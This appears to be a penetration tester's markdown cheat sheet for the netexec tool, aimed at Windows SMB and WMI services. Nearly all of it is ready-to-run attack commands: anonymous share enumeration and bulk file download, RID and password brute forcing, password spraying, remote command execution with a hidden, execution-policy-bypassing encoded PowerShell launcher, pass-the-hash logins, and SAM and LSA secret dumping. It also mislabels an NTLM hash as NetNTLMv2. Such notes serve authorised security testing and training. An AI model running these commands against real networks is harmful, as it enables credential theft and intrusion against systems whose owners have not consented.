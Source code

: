 ```yaml
---
tags:
  - smb
  - ldap
  - wmi
  - brute_forcing
---
```

# netexec

Enumerate services

## Capabilities

### SMB

```bash
# Null authentication
nxc smb $IP -u '' -p ''

# Anonymous authentication
nxc smb $IP -u 'a' -p ''

# Enumerate shares
nxc smb $IP -u 'a' -p '' --shares

# Spider all shares, downloading all readable files
nxc smb $IP -u '' -p '' -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=.
# List all files with their respective shares
cat $IP.json | jq '. | map_values(keys)'

# Brute force usernames through RIDs
nxc smb $IP -u 'a' -p '' --rid-brute 10000

# Brute force discovered users
nxc smb $IP -u users.txt -p users.txt --continue-on-success

# Password spray
nxc smb $IP -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
```

### Credentialed commands

```bash
# Check credentials (default to smb)
nxc smb $IP -u username -p 'Password123!'

# Execute commands (default to wmi, then smb)
nxc wmi $IP -u username -p 'Password123!' -x whoami
nxc smb $IP -u username -p 'Password123!' -x whoami
nxc smb $IP -u username -p 'Password123!' -x 'powershell -nop -w hidden -noni -ep bypass -e JABjAGwAaQBlAG4AdAAgAD0AIABO...'
```

NOTE: Add `--local-auth` flag to check credentials against the local user database, as opposed to the domain

Check a NetNTLMv2 hash with the following commands

Example hash:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c:::
```

```bash
nxc smb 192.168.1.0/24 -u username -H 'NTHASH'
nxc smb 192.168.1.0/24 -u username -H 'LM:NT'
```

Applied to our example:

```bash
nxc smb 192.168.1.0/24 -u Administrator -H '13b29964cc2480b4ef454c59562e675c'
nxc smb 192.168.1.0/24 -u Administrator -H 'aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c'
```

#### Obtaining credentials

```bash
# Dump SAM (requires Domain Admin or Local Admin Privileges with --local-auth)
nxc smb $IP -u Administrator -p 'Password123!' --sam

# Dump LSA secrets (requires Domain Admin or Local Admin Privileges with --local-auth)
nxc smb $IP -u Administrator -p 'Password123!' --lsa
```

